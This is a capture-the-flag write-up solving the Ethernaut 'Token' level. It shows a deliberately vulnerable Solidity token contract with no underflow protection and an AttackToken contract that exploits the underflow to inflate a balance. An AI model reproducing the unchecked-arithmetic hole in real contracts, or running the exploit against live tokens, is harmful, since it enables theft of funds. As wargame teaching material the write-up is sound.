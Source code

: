 ```yaml
---
description: overflow / underflow in Solidity
---
```


# 5 - Token

Ethernaut Level5: [Token](https://ethernaut.openzeppelin.com/level/0xbF361Efe3FcEc9c0139dEdAEDe1a76539b288935)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### Goal of this level

* Having more than 20 tokens.

### What you should know before

* Overflow / Underflow in solidity\
  \-> see [here](https://youtu.be/zqHb-ipbmIo)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

There was no overflow/underflow protection before solidity version 0.8

</details>

Use Remix IDE!

```solidity
contract AttackToken {
    Token token;
    // Your wallet address
    address player = 0x34B4ab0479D10FdbAA3b52C8371C7B1BE5c73bb7;
    
    constructor(Token _instanceAddr) public {
        token = _instanceAddr;
    }
    // call this function after transfering the token to this conntract
    function attack() external {
        token.transfer(player, 2);
    }
}
```

Maximum value that  `uint256` variable can have is `2**256 - 1`.

Initial `Token` balance of AttackToken contract is 0.

But when you call `attack()` function, underflow occurs so the balance of AttackToken contract becomes `2**256 - 2`.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // underflow occurs
    balances[msg.sender] -= _value; // 2**256 - 2
    balances[_to] += _value; // 2
    return true;
  }
```

You will eventually have 22 tokens after you deploy `AttackToken` contract and call `attack()`.

Done! 😎

## Key Takeaways

* Overflow/Underflow occured in solidity versions before 0.8

